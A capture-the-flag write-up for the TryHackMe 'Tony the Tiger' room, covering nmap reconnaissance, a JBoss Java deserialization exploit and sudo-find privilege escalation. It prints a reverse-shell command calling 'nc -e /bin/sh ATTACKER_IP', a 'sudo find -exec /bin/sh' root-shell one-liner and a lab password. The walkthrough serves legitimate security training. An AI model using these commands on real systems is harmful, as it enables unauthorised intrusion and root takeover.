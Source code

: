 ```yaml
---
title: "Tony the Tiger"
tags:
  - Easy
  - Linux
  - nmap
  - JBoss
  - Java Serialization
  - Insecure Deserialization
  - find
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|--| :--------: |--|:------------: |--| :--------:|--|
|  |    Easy    |  |  10.10.104.15 |  | [Tony the Tiger](https://tryhackme.com/room/tonythetiger) |  |

---

**The prompts for this room has been rewritten in this write-up for simplicity sake.**

---

### [ Reconnaissance ]

Let's start things off with a basic `nmap` scan (top 1000 ports) on the target machine.

```
sudo nmap -sC -sV -vv -T4 10.10.104.15
```

**Results:**

```
PORT     STATE SERVICE     REASON         VERSION
22/tcp   open  ssh         syn-ack ttl 61 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d6:97:8c:b9:74:d0:f3:9e:fe:f3:a5:ea:f8:a9:b5:7a (DSA)
| ssh-dss
[REDACTED]
|   2048 33:a4:7b:91:38:58:50:30:89:2d:e4:57:bb:07:bb:2f (RSA)
| ssh-rsa 
[REDACTED]
|   256 21:01:8b:37:f5:1e:2b:c5:57:f1:b0:42:b7:32:ab:ea (ECDSA)
| ecdsa-sha2-nistp256 
[REDACTED]
|   256 f6:36:07:3c:3b:3d:71:30:c4:cd:2a:13:00:b5:25:ae (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDUpCopvQzPXtEJ8L/lxYpJzOrcLLkU67fx71+Izsx6U
80/tcp   open  http        syn-ack ttl 61 Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Hugo 0.66.0
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Tony&#39;s Blog
1090/tcp open  java-rmi    syn-ack ttl 61 Java RMI
|_rmi-dumpregistry: ERROR: Script execution failed (use -d to debug)
1091/tcp open  java-rmi    syn-ack ttl 61 Java RMI
1098/tcp open  java-rmi    syn-ack ttl 61 Java RMI
1099/tcp open  java-object syn-ack ttl 61 Java Object Serialization
| fingerprint-strings: 
[REDACTED]
4446/tcp open  java-object syn-ack ttl 61 Java Object Serialization
5500/tcp open  hotline?    syn-ack ttl 61
| fingerprint-strings: 
[REDACTED]
8009/tcp open  ajp13       syn-ack ttl 61 Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|   Potentially risky methods: PUT DELETE TRACE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp open  http        syn-ack ttl 61 Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Unknown favicon MD5: 799F70B71314A7508326D1D2F68F7519
| http-methods: 
|   Supported Methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|_  Potentially risky methods: PUT DELETE TRACE
|_http-server-header: Apache-Coyote/1.1
|_http-title: Welcome to JBoss AS
8083/tcp open  http        syn-ack ttl 61 JBoss service httpd
|_http-title: Site doesn't have a title (text/html).
```

There are quite a number of ports open, but the ones I'm especially interested in are port **22 (SSH)**, port **80 (HTTP)** and port **8080 (HTTP)**.

The HTTP web server on port **80** contains a blog page:

![screenshot1](../assets/images/tony_the_tiger/screenshot1.png)

The HTTP web server on port **8080** contains a [JBoss](https://www.redhat.com/en/technologies/jboss-middleware/application-platform) application server:

![screenshot6](../assets/images/tony_the_tiger/screenshot6.png)

---

*JBoss application server is an open-source platform, developed by Red Hat, used for implementing Java applications and a wide variety of other software applications.* 

---

Since the room is all about **Java serialization**, this JBoss server will probably be quite important later on.

---

### [ Find Tony's Flag! ]

Let's focus on Tony's blog first.

The first thing I did was to look for any low-hanging fruit, such as looking at the source code of the page for comments and checking the robots.txt file. There was nothing of interest there.

Next, if we look at the post titled '**My First Post**', we find something interesting:

![screenshot2](../assets/images/tony_the_tiger/screenshot2.png)

Looks like there might be embedded data within the images on the site. Looking around, I managed to find 2 images. I downloaded them onto my machine and tried to see if I could extract any data from them.

In the end, the image that had embedded data was this:

![screenshot3](../assets/images/tony_the_tiger/screenshot3.png)

All I had to do was run `strings` on it and we get Tony's flag within the output:

![screenshot4](../assets/images/tony_the_tiger/screenshot4.png)

---

### [ Exploit! ]

The room tells us to download a zip file which contains the following resources:

![screenshot5](../assets/images/tony_the_tiger/screenshot5.png)

**exploit.py** uses the **ysoserial.jar** file in the file to launch a remote code execution attack. It abuses a Java deserialization vulnerability that exists for certain versions of JBoss.

---

**Explanation of vulnerability:**

*It was found that the Apache commons-collections library permitted code execution when deserializing objects involving a specially constructed chain of classes. A remote attacker could use this flaw to execute arbitrary code with the permissions of the application using the commons-collections library.*

Source: https://www.rapid7.com/db/vulnerabilities/http-jboss-cve-2015-7501/

---

We can use this exploit to launch a reverse shell on the target machine:

```
python2 exploit.py 10.10.104.15:8080 'nc -e /bin/sh ATTACKER_IP 4444'
```

With a netcat listener up and running, I ran the command above:

![screenshot7](../assets/images/tony_the_tiger/screenshot7.png)

And we're in!

---

### [ Find User JBoss' flag! ]

Looking around the machine, I found out that there are 3 users:

![screenshot8](../assets/images/tony_the_tiger/screenshot8.png)

Visiting **jboss'** home directory, there is a hidden text file called **.jboss.txt**:

![screenshot11](../assets/images/tony_the_tiger/screenshot11.png)

This file contains **JBoss' flag**:

![screenshot12](../assets/images/tony_the_tiger/screenshot12.png)

---

### [ Escalation! ]

There is also another text file called **note**:

![screenshot9](../assets/images/tony_the_tiger/screenshot9.png)

Nice, we have jboss' password! 

> likeaboss

Let's log into his account via SSH:

![screenshot10](../assets/images/tony_the_tiger/screenshot10.png)

If we look at jboss' **sudo privileges**:

![screenshot13](../assets/images/tony_the_tiger/screenshot13.png)

We see that jboss can run the `find` command as root! [GTFOBins](https://gtfobins.github.io/gtfobins/find/) provides the following method to exploit this:

![screenshot14](../assets/images/tony_the_tiger/screenshot14.png)

All we have to do is run the following command:

```
sudo find . -exec /bin/sh \; -quit
```

![screenshot15](../assets/images/tony_the_tiger/screenshot15.png)

And just like that, we've opened a root shell.

The **root flag** can then be found in /root:

![screenshot16](../assets/images/tony_the_tiger/screenshot16.png)

It's base64-encoded, so let's decode it:

![screenshot17](../assets/images/tony_the_tiger/screenshot17.png)

We get what seems to be a MD5 hash. We can try cracking it using my go-to online [hash cracker](https://hashes.com/en/decrypt/hash):

![screenshot18](../assets/images/tony_the_tiger/screenshot18.png)

And we got the root flag!
